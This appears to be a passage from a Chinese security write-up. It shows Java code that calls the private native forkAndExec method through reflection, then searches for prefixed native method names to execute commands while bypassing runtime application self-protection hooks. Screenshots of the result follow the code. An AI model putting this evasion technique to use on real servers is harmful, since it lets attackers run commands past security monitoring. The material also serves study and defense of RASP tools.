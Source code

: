 ```bash
try {
        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });

        forkMethod.setAccessible(true);// 设置访问权限
        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });
    } catch (Exception e) {
        System.out.println("[-] reflect forkAndExec failed,try to bypass");
        for (Method m : processClass.getDeclaredMethods()) {
            if (m.getName().endsWith("forkAndExec") && !m.getName().equals("forkAndExec")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                int pid = (int) m.invoke(processObject, new Object[]{
                        ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                        null, envc[0], null, std_fds, false
                });
            }
        }
    }
```

效果![图片](assets/1704158474-0737263780d76b82406ed1944ff9a01a.png)

![图片](assets/1704158474-49ab01afb1e61ae57e6a8e4f5cbe012b.png)

